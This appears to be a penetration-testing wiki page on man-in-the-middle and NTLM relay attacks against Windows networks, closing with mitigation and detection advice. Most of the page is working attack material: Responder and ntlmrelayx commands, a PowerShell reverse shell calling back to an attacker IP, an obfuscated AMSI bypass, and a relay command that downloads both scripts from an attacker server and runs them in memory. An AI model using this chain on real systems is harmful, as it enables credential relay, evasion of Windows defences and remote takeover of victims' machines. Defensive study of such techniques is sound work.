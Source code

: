 # MitM & NTLM Relay



{% hint style="info" %}
#### For a full list of MitM techniques refer to [MitM & poisoning](broken-reference) section.
{% endhint %}

## <mark style="color:red;">RDP MitM</mark>

#### refer to[ this section](../../network-poisoning-mitm/rdp-downgrade.md) .

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows2000 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
responder -I eth0 # disable smb & http
ntlmrelayx.py -tf targets.txt
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

## <mark style="color:red;">NTLM Relay + AMSI Bypass</mark>

{% hint style="info" %}
Combining NTLM relay with empire one-liners is not effective in a modern Active Directory Environment with latest windows security updates because AMSI has evolved and the payload is easily detected and blocked.
{% endhint %}

This technique will use the same principles of NTLM relay but with a simple trick to bypass AMSI and get a reverse shell, the AMSI  bypass script and reverse shell payload can be different but the one i am using here could bypass windows 10  pro update 1/20/2020 with windows defender and AMSI enabled.

#### <mark style="color:green;">find hosts with smb signing disabled:</mark>

```
crackmapexec smb 192.168.56.1/24 --gen-relay-list targets
```

#### <mark style="color:green;">simple powershell TCP reverse shell payload (catch with netcat or metasploit multi/handler):</mark>

{% code title="rev.ps1" %}
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```
{% endcode %}

#### <mark style="color:green;">AMSI bypass payload (try using other payloads if this doesn't work):</mark>

{% code title="bypass.ps1" %}
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

#### <mark style="color:green;">run a python http server to serve these files:</mark>

```
python3 -m http.server 9000
```

#### <mark style="color:green;">run responder and ntlmrelayx with a powershell command to load the scripts in memory and execute them in the same powershell session (otherwise the bypass wont work):</mark>

```
 responder -I vboxnet0 -dw
 
 impacket-ntlmrelayx  --delegate-access -smb2support -tf targets -c "powershell -ep bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/bypass.ps1');IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/rev.ps1')"
```

now when responder gets new hashes, ntlmrelayx will relay them and if the login was successful, power powershell command will load bypass and reverse shell scripts in memory and execute both og them to bypass AMSI and we get a shell.

## <mark style="color:red;">Mitigation</mark>

* Enforce SM signing - turn on SMB Signing on all machines in the network.
* Block NTLMNv1- NTLMv1 is considered significantly less secure than its more recent version, the NTLMNv2.
* Enforce LDAP/S Signing- to prevent NTLM relay in LDAP, enforce LDAP signing and LDAPS channel binding on domain controllers.
* Enforce EPA- to prevent NTLM relay on web servers, harden them to accept only requests with EPA.
* _**Reduce NTLM usage-**_ even after all measures were taken. The best thing you can do is to simply reduce the NTLM usage. As NTLM poses a significant risk, it is recommended that you remove it where it is not needed.

{% hint style="success" %}
The only way to be totally safe from SMB/NTLM relay attacks is to completely disable NTLM authentication and  switch to Kerberos.

This might not always be possible as a lot of old services and applications have some issues with Kerberos.&#x20;
{% endhint %}

## <mark style="color:red;">Detection</mark>

* Get all NTLM logons where the session has admin privileges
* Get all hostnames and their IPs using one of the methods above
* Use left anti join to find logons where the **Network Address** in the NTLM logon event doesn’t match the IP of the host in step 2.

### <mark style="color:orange;">False Positive/Negative Considerations</mark> <a href="#1c97" id="1c97"></a>

* If you have load balancers or other devices that perform SNAT, authentications coming over these devices will be seen as relayed. These IPs need to be whitelisted. There is a false positive and false negative risk in this case.
* Devices that are not joined to a domain always perform NTLM authentication. Baselining with historical logon events will reduce false positives. Alternatively, hostname and IP address info can be obtained and whitelisted manually.
* NTLM relaying of machine accounts can’t be detected using the above logic if the machine logon events are used as the single source of truth for hostname — IP pair. This is a rare scenario but it might be critical like in the PetitPotam case. Critical computer accounts can be monitored using the same logic and using a manually created hostname-IP list. Since the attack surface most likely is the servers, DNS records might be a good option.
* Sometimes, the **Workstation Name/Network Address** doesn’t appear in the logs.

### <mark style="color:orange;">Bonus detection</mark> <a href="#429b" id="429b"></a>

The detection logic can also find devices that stopped sending events since the logic performs a logical NOT operation.
